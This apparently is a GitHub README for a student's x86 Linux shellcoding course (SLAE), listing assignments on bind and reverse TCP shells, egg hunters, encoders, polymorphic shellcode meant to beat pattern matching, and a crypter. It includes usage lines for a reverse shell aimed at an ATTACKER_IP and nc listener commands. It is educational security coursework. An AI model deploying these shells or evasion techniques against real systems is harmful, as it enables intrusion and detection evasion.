

# x86 Assembly Language and Shellcoding on Linux
# SLAEx86 : Student ID: PA-1191
### Assignment 1
Create a Shell Bind TCP Shellcode
- Binds to a port
- Execs shell on incoming connection
- Port number should be easily configurable
```
Implemeted the TCP Bind Shell shellcode 
Usage : 

=> gcc shellcode_with_configurable_port.c -zexecstack -fno-stack-protector -o bind_shell
=> ./bind_shell <PORT_TO_BIND>

In Victim Machine => ./bind_shell 9999 

Attacker Machine => nc 127.0.0.1 9999

Blog : https://oxhat.blogspot.com/2018/04/coding-custom-tcp-bind-shell-shellcode.html
```
### Assignment 2
Create a Shell Reverse Tcp Shellcode
- Reverse connect to configured IP and Port
- Execs shell on incoming connection
- IP and Port should be easily configurable
```
Implemeted the TCP Reverse Shell shellcode 
Usage example : 

=> gcc shellcode_with_configurable_port.c -zexecstack -fno-stack-protector -o reverse_shell
=> ./reverse_shell <ATTACKER_IP TO CONNECT> <ATTACKER_PORT_TO_CONNECT>

Attacker Machine => nc -nlvp 8888

In Victim Machine => ./reverse_shell 127.0.0.1 8888  

Blog : https://oxhat.blogspot.com/2018/04/coding-custom-tcp-reverse-shell.html
```
### Assignment 3
Study about Egg Hunter Shellcode
Create a working demo of the Egg Hunter
Should be configurable for different payload

### Assignment 4
Create a custom encoding scheme  like "Insertion Encoder" we showed you
Poc using execve-stack as the shellcode to encode your schema and execute
```
Implemented a custom encoder where each shellcode value is xored and duplicated to generate the final shellcode
Implemented a custom decoder to decode the encoded shellcode

Usage:
generating encoded shellcode 

Put the shellcode inside the custom_insertion_encoder.py
=> python custom_insertion_encoder.py

decoding and executing
copy and put the encoded shellcode inside the nasm file
=> nasm custom_insertion_decoder.nasm -felf32 -o custom_insertion_decoder.o
=> ld custom_insertion_decoder.o -o custom_insertion_decoder
=> ./custom_insertion_decoder

Blog : https://oxhat.blogspot.com/2019/04/coding-custom-insertion-encoder-and.html
```
### Assignment 5
Take up at least 3 shellcode sample created using Msfpayload for linux/x86
Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode
Present your analysis
```
As msfpayload is outdate, all the payloads are created using msfvenom

1. Analysis of linux/x86/adduser shellcode

2. Analysis of linux/x86/chmod shellcode

3. Analysis of linux/x86/exec shellcode

Blog : https://oxhat.blogspot.com/2019/04/analyzing-shellcode.html
```
### Assignment 6
Take upto 3 shellcode from shell-storm and create a polymorphic versions of them to beat patten matching
- The polymorphic versions cannot be larger 150% of the existing shellcode
- Bonus point for making it shorter in length than original
```
1. Implemented 2 polmorphic versions of exit() shellcode 

2. Implmented polymorphic version of cat /etc/password shellcode

3. Implemented a polymorphic and obfuscated version of commandline netcat 

Blog : https://oxhat.blogspot.com/2019/04/polymorphic-shellcodes.html
```
### Assignment 7
Create a custom crypter like the one shown in "crypters" video.
- Free to use any existing encryption schema.
- Can use any programming language.
```
1. Implemented a crypter with encrytion based on one time pad.

Blog : https://oxhat.blogspot.com/2019/04/coding-custom-crypter.html 
```
### Additional Assignments
```
1. Implemented a shellcode for chdir() 
```
### Scripts
```
1. Implmented a bash automation script to generate shellcode from binary
usage: dump.sh binary
There is also an extended version of this inside the same directory.
Sometimes the script does not dump all the shellcode properly so the extended version is used.

2. Implemented an automation script to generate a C code with an embedded shellcode inside it.
usage : python shellcode_template.py filename.c "\x41\x41\x41x\41"
```
